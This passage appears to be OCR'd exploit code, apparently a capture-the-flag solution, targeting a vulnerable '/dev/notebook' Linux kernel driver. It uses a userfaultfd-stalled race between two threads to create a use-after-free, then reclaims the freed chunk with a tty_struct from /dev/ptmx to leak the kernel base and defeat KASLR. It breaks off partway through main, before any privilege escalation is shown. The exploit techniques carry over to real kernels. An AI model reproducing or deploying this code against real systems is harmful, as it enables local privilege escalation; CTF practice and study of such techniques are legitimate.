 ```c
void note_read(int idx, void *buf) {
    read(fd, buf, idx);
}

void note_write(int idx, void *buf) {
    write(fd, buf, idx);
}

void stuck() {
    puts("[+] Stuck");
    sleep(100000);  // stuck to prevent copy_from_user
}

void add_thread_func() {
    sem_wait(&add_sem);
    add(0, 0x60, uffd_buf);
}

void edit_thread_func() {
    sem_wait(&edit_sem);
    edit(0, 0, uffd_buf);
}

int main() {
    int tty_fd;
    size_t tty_buf[0x2e0], orig_tty_buf[0x2e0];
    struct tty_operations fake_tty_ops;
    save_status();
    bind_cpu(0);


    fd = open("/dev/notebook", O_RDWR);
    if (fd < 0) {
        perror("open fd");
        exit(EXIT_FAILURE);
    }
    sem_init(&add_sem, 0, 0);
    sem_init(&edit_sem, 0, 0);

    uffd_buf = (char *) mmap(NULL, 0x1000, PROT_READ | PROT_WRITE, 
                            MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
    register_userfaultfd_with_default_handler(&monitor_thread, uffd_buf, 0x1000, stuck);

    add(0, 0x20, "add");
    edit(0, 0x2e0, "tty");

    pthread_create(&add_thread, NULL, (void *)add_thread_func, NULL);
    pthread_create(&edit_thread, NULL, (void *)edit_thread_func, NULL);

    sem_post(&edit_sem);
    sleep(1);
    sem_post(&add_sem);
    sleep(1);

    puts("[+] UAF");  // 0->ptr = freed_chunk

    tty_fd = open("/dev/ptmx", O_RDWR | O_NOCTTY);

    note_read(0, tty_buf);
    memcpy(orig_tty_buf, tty_buf, sizeof(tty_buf));
    kernel_offset = tty_buf[3] - 0xe8e440 - kernel_base;
    kernel_base = kernel_base + kernel_offset;
    printf("[+] kernel_base = 0x%lx\n", kernel_base);
```